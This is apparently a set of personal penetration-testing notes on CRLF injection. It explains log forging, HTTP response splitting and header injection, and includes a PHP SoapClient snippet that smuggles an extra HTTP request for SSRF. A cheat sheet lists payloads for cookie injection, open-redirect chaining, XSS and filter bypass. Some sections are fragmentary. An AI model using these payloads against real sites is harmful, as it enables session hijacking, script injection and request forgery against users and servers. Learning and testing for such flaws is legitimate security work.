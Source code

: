 # CRLF
## **What is the CRLF combination?**

The HTTP headers and the HTML response (website content) are separated by a specific combination of special characters, namely a carriage return (CR) and a line feed (LF).

The web server uses the CRLF combination to understand when new HTTP header begins and another one ends. The CRLF can also tell a web application or user that a new line begins in a file or in a text block. The CRLF characters are a standard HTTP/1.1 message, so they are used by all web servers, including **[Apache](https://www.invicti.com/server-security-software/apache-security-scanner/)**
, Microsoft IIS, and others.

---

## **What is the CRLF injection vulnerability?**

In a CRLF injection attack, the attacker inserts the carriage return and linefeed characters into user input to trick the server into thinking that an object has terminated and another one has started,, for example for HTTP response splitting.

---

## ****CRLF injection in web applications****

CRLF injection can have a severe impact , can range from information disclosure to code execution

---

### **Example: CRLF injection in a log file**

Imagine a log file in an admin panel with the output stream pattern of *IP - Time - Visited Path,* such as the below:

```
123.123.123.123 - 08:15 - /index.php?page=home
```

If an attacker is able to inject the CRLF characters into the HTTP request, they can change the output stream and fake log entries. The response from the web application can be changed to something like this:

```
/index.php?page=home&%0d%0a127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
```

The `%0d` and `%0a` are URL-encoded forms of CR and LF. Therefore, the log entries would look like this after the attacker inserted those characters and the application displays them (IP - Time - Visited Path):

```
123.123.123.123 - 08:15 - /index.php?page=home&
127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
```

By exploiting a CRLF injection vulnerability, attackers can fake entries in the log file to obfuscate their actions. In this case, the attacker is literally doing page hijacking and modifying the response.

Imagine a scenario where the attacker has the admin password and uses the `restrictedaction` parameter, which can only be used by an admin. If an administrator notices that an unknown IP has used the `restrictedaction` parameter, they may suspect malicious activity. However, since now it looks like the command was issued by the localhost (and therefore probably by someone who has access to the server, like an admin), it does not look suspicious.

The whole part of the query beginning with `%0d%0a` will be handled by the server as one parameter. After that, there is another `&` character with the parameter `restrictedaction`, which will be parsed by the server as another parameter. Effectively, this would be the same query as:

```
/index.php?page=home&restrictedaction=edit
```

---

## EX-2

, there are a couple of inputs being reflected into the HTTP Headers . After a bit of fiddling, I discovered that non-printable control characters were not encoded which they should be, which took me to try for CRLF and I tried to add “Location” header to see whether it was 

getting redirected. Below is the POC —

![1_EZMcORKM2QPG_vXC-Fy4pw.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c58282cd-5556-4be5-bb07-5de1754514e0/1_EZMcORKM2QPG_vXC-Fy4pw.png)

Now the Server responds to this request by injecting the CRLF characters in the response , you will find “Location” http header has been set in the http response with the value “[http://www.evilzone.org](http://www.evilzone.org/)” as injected via the CRLF payload in the below screesnshot—

![1_ieQQ71kALe3qFVEKi1aMQA.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cad1c738-97dc-4242-ae93-e4f5ba618ce3/1_ieQQ71kALe3qFVEKi1aMQA.png)

---

## **HTTP response splitting**

. A combination of CRLFCRLF will tell the browser that the header ends and the body begins. This could allow an attacker to write data into the response body where the HTML code is sent, leading to a **[cross-site scripting  (XSS)](https://www.invicti.com/blog/web-security/cross-site-scripting-xss/)**
 vulnerability.

### **Example: HTTP response splitting leading to XSS**

Imagine an application that sets a custom header, for example:

```
X-Your-Name: Bob
```

The value of the header is set via a GET parameter called `name`. If no URL-encoding is in place and the value is directly reflected inside the header, it might be possible for an attacker to insert the above mentioned combination of CRLFCRLF to tell the browser where the request body begins. That way, attackers may be able to insert data such as a XSS payload, for example:

```
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
```

The above will display an alert window in the context of the attacked domain.

---

## **HTTP header injection**

By exploiting a CRLF injection, an attacker can also insert HTTP headers which could be used to defeat security mechanisms such as a browser's XSS filter or the same-origin-policy. This allows malicious actors to obtain sensitive information like CSRF tokens. Attackers can also set cookies which could be exploited by logging the victim into the attacker's account or used to exploit otherwise unexploitable cross-site scripting vulnerabilities.

---

## How to find

1. using user input directly in response headers.
2. no encode the CRLF special characters.
3. 

---

## New HTTP request in SSRF

Abusing CRLF injection you can **craft a new HTTP request and inject it**.
A good example can be done using the `SoapClient` deserialization gadget from in PHP. This class is **vulnerable to CRLF** inside the `user_agent` parameter allowing to i**nsert new headers and body content**. However, you can even be able to abuse this vulnerability to **inject a new HTTP request:**

```bash
$target = 'http://127.0.0.1:9090/test'; 
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

#Put a nc listening in port 9090
$client->__soapCall("test", []);
```

## CHEATSHEET

```bash
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2 
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

## Tools

https://github.com/dwisiswant0/crlfuzz

https://github.com/dwisiswant0/crlfuzz

**Brute-Force Detection List ⇒[Auto_Wordlists](https://github.com/carlospolop/Auto_Wordlists)/[wordlists](https://github.com/carlospolop/Auto_Wordlists/tree/main/wordlists)/crlf.txt[Go to file](https://github.com/carlospolop/Auto_Wordlists/find/main)**

[Auto_Wordlists/crlf.txt at main · carlospolop/Auto_Wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/crlf.txt)

###
